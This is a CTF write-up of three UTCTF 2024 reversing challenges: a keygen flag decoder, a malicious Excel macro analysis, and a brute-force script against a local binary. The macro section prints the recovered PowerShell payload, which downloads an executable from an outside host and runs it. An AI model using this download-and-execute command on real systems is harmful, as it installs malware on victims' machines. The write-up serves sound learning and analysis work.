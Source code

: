 # UTCTF 2024
## Beginner: Basic Reversing Problem

In keygen function, the program consecutively added characters to the key.

![image](https://github.com/san601/CTF_Archive/assets/144963803/cef44d9d-982f-4bb4-addc-d3fc1fb89884)

Concatenating those characters and we got the flag.

```python
a = [
    0x75, 0x74, 0x66, 0x6c, 0x61, 0x67, 0x7b, 0x69, 0x5f, 0x63, 0x34, 0x6e,
    0x5f, 0x72, 0x33, 0x76, 0x21, 0x7d,
]
for i in a:
    print(chr(i), end='')
```

![image](https://github.com/san601/CTF_Archive/assets/144963803/84cb1da7-fe14-4940-b1b8-430b982b28b0)

## Fruit Deals

We got 2 macros in the file, let's just focus on the first one.

![image](https://github.com/san601/CTF_Archive/assets/144963803/dbbb6c1f-13ce-4b0a-9be0-603733d6e8c5)

Sheet1 and sheet2 were full of random Base64 stuffs

![image](https://github.com/san601/CTF_Archive/assets/144963803/fcd327de-3178-40ac-9e8f-fe58d4ff2c6b)

So basically, this macro check if a cell contained some string, if true, it put some part of a payload into a variable. This payload might be used to download some files.

![image](https://github.com/san601/CTF_Archive/assets/144963803/e5882d47-aff1-4325-8f9f-85c6cccc4b47)

Set a breakpoint just right before the macro execute the payload.

![image](https://github.com/san601/CTF_Archive/assets/144963803/bd1e358a-96e3-4d55-8b36-b830f26b5e24)

We got the payload
```
"poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}""
```

It is clearly stated that the macro was going to download a file from 
```
http://fruit.gang/malware/banANA-Hakrz09182afd4.exe
```

So the flag is utflag{banANA-Hakrz09182afd4.exe}

## PES-128

After a while, I noticed that:
- Each character in the output string was not calculated based on a whole input string.
- The program treated our input as a string of hex bytes:
  
This was my input:

![image](https://github.com/san601/CTF_Archive/assets/144963803/9a8d78c6-d231-4bbe-95ed-a656085d0936)

This was how the program store my input:

![image](https://github.com/san601/CTF_Archive/assets/144963803/7a9183b7-1145-40be-9bbd-ca1feab07174)

This was my input after some calculation:

![image](https://github.com/san601/CTF_Archive/assets/144963803/46404e51-1210-44b1-a73a-ff239ef2c45a)

This was the output:

![image](https://github.com/san601/CTF_Archive/assets/144963803/46fb9de2-3ce1-40a7-9041-211ebde7b2f3)

With those idea in mind, we can now brute-forcing each character at a time, compare it with the encrypted flag.

Here is my script to cAptURe tHe fLaG.
```python
from pwn import *

enc_flag = '75ac713a945e9f78f657b735b7e1913cdece53b8853f3a7daade83b319c49139f8f655b0b77b'

flag = ''

flag_len = len(enc_flag)//2

for i in range(flag_len):
    for j in range(33, 126):
        binary_path = './PES'
        p = process(binary_path)
        p.sendline(flag + str(hex(j)[2:]))

        output = p.recvall().decode()
        output = output.split()
        current_length = len(output[1])
        if output[1] == enc_flag[:current_length]:
            print(chr(j), end='')
            flag += str(hex(j)[2:])
        p.close()

print(bytes.fromhex(flag))
```

![image](https://github.com/san601/CTF_Archive/assets/144963803/d3b4acb1-c6bc-4871-8fd9-c4e1fcc69397)

